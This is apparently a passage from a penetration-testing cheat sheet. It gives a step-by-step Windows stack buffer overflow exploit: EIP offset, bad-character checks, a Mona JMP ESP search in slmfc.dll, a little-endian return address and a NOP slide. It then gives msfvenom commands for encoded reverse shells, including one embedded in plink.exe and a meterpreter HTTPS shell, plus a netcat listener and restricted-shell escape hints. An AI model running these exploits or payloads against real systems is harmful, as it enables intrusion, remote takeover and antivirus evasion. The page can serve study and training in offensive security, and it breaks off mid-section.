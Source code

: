 - Verify exact location of EIP - [\*] Exact match at offset 2606
  - `buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90`
- Check for “Bad Characters” - Run multiple times 0x00 - 0xFF
- Use Mona to determine a module that is unprotected
- Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP
- Use NASM to determine the HEX code for a JMP ESP instruction
    
    ```
    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    JMP ESP  
    00000000 FFE4 jmp esp
    ```

- Run Mona in immunity log window to find (FFE4) XEF command

    ```shell
    !mona find -s "\xff\xe4" -m slmfc.dll  
    found at 0x5f4a358f - Flip around for little endian format
    buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
    ```
    **We can use the view -> show executables modules and search for the instruction in the immunity debugger.**

- MSFVenom to create payload
  - `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"`
- Final Payload with NOP slide  
  - `buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode`
- Create a PE Reverse Shell
  - `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -o shell_reverse.exe`
- Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai
  - `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`
- Create a PE reverse shell and embed it into an existing executable  
  - `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`
- Create a PE Reverse HTTPS shell
  - `msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe`
- You can remove `\x00\x0a\x0d\x20` almost in every app.
- FTP - > \x00\x0d\x0a\x20\x40

## Shells

- Netcat Shell Listener  
  - `nc -nlvp 4444`

- Spawning a TTY Shell - Break out of Jail or limited shell
      You should almost always upgrade your shell after taking control of an apache or www user.
      (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )
      (hint: sudo -l to see what you can run)

- You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

